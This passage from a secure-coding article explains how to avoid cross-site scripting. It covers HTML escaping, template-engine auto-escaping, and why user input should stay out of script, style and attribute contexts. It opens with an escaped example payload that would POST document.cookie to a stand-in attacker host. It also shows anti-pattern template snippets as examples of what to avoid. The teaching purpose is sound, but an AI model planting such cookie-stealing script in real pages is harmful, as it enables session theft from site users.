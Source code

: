 ```html
<p>
&lt;script&gt;
  fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, data: document.cookie })
&lt;/script&gt;
</p>
```

which displays harmlessly as text.

Fortunately, as established above, you don't have to do your escaping manually—I just wanted to demonstrate how simple these concepts are. Every template engine has an auto-escaping feature, and you're going to want to use a template engine anyway. Just make sure that escaping is enabled, and send all your HTML through it.

### Only serve user-generated content inside HTML tags

This is an addendum to the template engine rule, but it's important enough to call out on its own. Do not allow your users to define arbitrary CSS or JS content, even with your auto-escaping template engine.

```html
<!-- Don't include inside script tags -->
<script>
  const userName = {{ user.name }}
</script>

<!-- Don't include inside CSS tags -->
<style>
  h1 { color: {{ user.favorite_color }} }
</style>
```

And, don't use user-defined attributes or tag names either:
```html
<!-- Don't allow user-defined tag names -->
<{{ user.tag }}></{{ user.tag }}>

<!-- Don't allow user-defined attributes -->
<a {{ user.attribute }}></a>

<!-- User-defined attribute VALUES are sometimes okay, it depends -->
<a class="{{ user.class }}"></a>

<!-- Escaped content is always safe inside HTML tags (this is fine) -->
<a>{{ user.name }}</a>
```

CSS, JavaScript, and HTML attributes are ["dangerous contexts,"](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) places where it's not safe to allow arbitrary user input, even if it's escaped. Escaping will protect you from some vulnerabilities here, but not all of them; the vulnerabilities are varied enough that it's safest to default to not doing *any* of these.

Inserting user-generated text directly into a script tag should never be necessary, but there *are* some situations where you might let users customize their CSS or customize HTML attributes. Handling those properly will be discussed down below.
